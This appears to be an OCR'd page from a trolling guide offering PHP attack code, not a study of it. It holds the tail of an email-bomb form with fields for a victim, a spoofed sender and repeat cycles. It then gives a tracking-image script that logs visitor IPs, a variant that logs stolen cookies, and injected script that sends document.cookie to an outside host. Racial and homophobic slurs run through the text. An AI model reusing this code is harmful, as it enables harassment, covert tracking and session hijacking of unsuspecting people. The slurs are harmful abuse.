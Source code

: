      /* if the form isn't filled out show it. also, mess around with this  part any way you like. */
    ?>
    <form method="post" action="">
       Victim: <input type="text" size="28" name="email"><br>
       Message title: <input type="text" size="28"
     name="message"><br>
       Sender (spoof it): <input type="text" size="28"
     name="sender"><br>
       Message body: <textarea name="body" cols="28"
     rows="5"></textarea><br>
       Emails per cycle (default 10): <input type="text" size="28"
     name="spams" value="10"><br>
       Cycles (default 10):<input type="text" size="28"
     name="cycles" value="10"><br>
    <input type="submit" name="submit" value="Click for lulz">
    </form>
    <?php 
    }
    ?>

### Image bugs  ###

Pretty fucking simple, really. You insert the following into an e-mail or something: 
c
Then in iplulz.php on your server (or whatever you call it), put this code: 
_PROTIP: Make a directory on your server called niggerimage.png or any image name, then save the code as index.php in the directory._

    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_SERVER['REMOTE_ADDR'] . " fell for it lol\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>

User gets the image, you get their IP added to a list. EVERYONE WINS
Also, can steel cookies in dat way:

    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_GET['d0ngz'] . " nigger\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>

And in email or whatevastuff put

    <script>
    document.write("<img src='http://niggerz.com/fag.php?d0ngz="+ document.cookie+"'><br>')
    </script>